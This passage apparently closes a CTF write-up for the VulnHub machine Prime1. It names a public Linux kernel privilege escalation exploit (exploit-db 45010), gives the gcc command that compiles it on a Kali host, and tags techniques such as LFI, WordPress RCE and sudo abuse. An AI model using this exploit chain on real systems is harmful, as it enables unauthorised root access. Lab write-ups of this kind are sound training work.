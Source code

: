 	-----------------------------------------------------------------------------------------------
	Exploit Title                                                            |  Path
	-----------------------------------------------------------------------------------------------
	Linux Kernel<4.13.9(Ubuntu 16.04 / Fedora 27)-Local Privilege Escalation | linux/local/45010.c
	-----------------------------------------------------------------------------------------------
	```
	- https://www.exploit-db.com/exploits/45010
3. Compile Exploit
	```
	┌──(root💀kali)-[~/vulnHub/Prime1/192.168.1.103/exploit/kernel]
	└─# gcc 45010.c -m64 -o exploit -D_GNU_SOURCE
	```
4. Transfer & Exploit
	![](images/Pasted%20image%2020220122042300.png)

	
---
Tags: #exploit/file-inclusion/lfi  #tcp/80-http/cms/wordpress #tcp/80-http/rce #linux-priv-esc/sudo/unknown-exec #linux-priv-esc/linux-creds-found  #cryptography #linux-priv-esc/kernel-exploit 

---